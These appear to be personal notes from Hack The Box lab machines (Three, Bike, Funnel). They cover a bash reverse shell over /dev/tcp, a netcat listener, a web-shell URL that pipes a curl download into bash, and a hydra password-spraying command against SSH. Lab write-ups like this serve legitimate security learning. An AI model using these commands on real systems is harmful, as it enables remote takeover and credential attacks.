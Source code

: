 Let's get a reverse shell by creating a new file shell.sh containing the following bash reverse shell payload which will connect back to our local machine on port 1337 .

```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

Start a ncat listener on our local port 1337 using the following command.

```bash
nc -nvlp 1337
```

Start a web server on our local machine on port 8000 and host this bash file. It is crucial to note here that this command for hosting the web server must be run from the directory which contains the reverse shell file. So, we must first traverse to the appropriate directory and then run the following command.

```bash
python3 -m http.server 8000
```

Use the curl utility to fetch the bash reverse shell file from our local host and then pipe it to bash
in order to execute it. Thus, let us visit the following URL containing the payload in the browser.

```bash
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash
```

### Bike

Tip: An error is not always a bad thing. On the contrary for a Penetration Tester, it can provide valuable information. In this case we can see that the server is running from the /root/Backend directory and also that the Handlebars Template Engine is being used.

### Funnel

List listening ports:

```bash
ss -tln
```

- `-l` - Display only listening sockets.
- `-t` - Display TCP sockets.
- `-n` - Do not try to resolve service names.

First time local port forwarding in ssh. https://linuxize.com/post/how-to-setup-ssh-tunneling/

> Local port forwarding is mostly used to connect to a remote service on an internal network such as a database or VNC server.

New term: _password spraying_ - the software to do that is named `hydra`.

From a list of usernames and only one password try to connect to ssh:

```bash
hydra -L file -p 'password' target_IP ssh
```
